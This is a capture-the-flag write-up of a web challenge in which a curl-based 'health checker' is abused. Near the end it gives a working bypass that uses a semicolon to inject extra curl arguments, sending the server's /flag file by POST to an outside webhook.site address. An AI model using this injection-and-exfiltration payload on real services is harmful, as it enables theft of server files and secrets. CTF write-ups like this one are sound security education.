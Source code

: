 # Web - CurlAsAService

## Description
> cURL As A Service or CAAS is a brand new Alien application, built so that humans can test the status of their websites. However, it seems that the Aliens have not quite got the hang of Human programming and the application is riddled with issues.

## Walkthrough

For this web challenge, we had an online instance and the challenge code.

I first looked at the website normally in browser.

![Screenshot0](./screenshots/0.png)

We see this page __Health Checker 9000__ which is probably meant to check if a service / website is active.

The whole thing is apparently done with `curl`.

Brought to the preset URL `http://127.0.0.1` we get to see the following.

![Screenshot1](./screenshots/1.png)

Now we have retrieved our own page internally on the localhost.

External page calls also work as demonstrated here with `http://example.org`.

![Screenshot2](./screenshots/2.png)

Ok, so far so good, but we want the flag.

Let's first see where it is in the challenge files.

`tree web_caas`

![Screenshot3](./screenshots/3.png)

The flag is located in a file under `/flag`.

<br>
<br>

## Bypass

I experimented a bit with the application and tried to find a bypass.

Some attempts failed and I got __Illegal Characters Detected__ as output only.

![Screenshot4](./screenshots/4.png)

I also tried to change curls protocols like `ftp://`, `file://` and so on, but this did not work.

With a seimicolon `;` I found a bypass that worked.

__Bypass:__ `http://no.local/ ; https://webhook.site/<ID> -d @/flag`.

I was able to do the query twice with a semicolon using curl and was able to send the flag `-d` and the `@` character files via POST and sent the flag to me to [webhook.site](https://webhook.site).

![Screenshot5](./screenshots/5.png)

![Screenshot6](./screenshots/6.png)
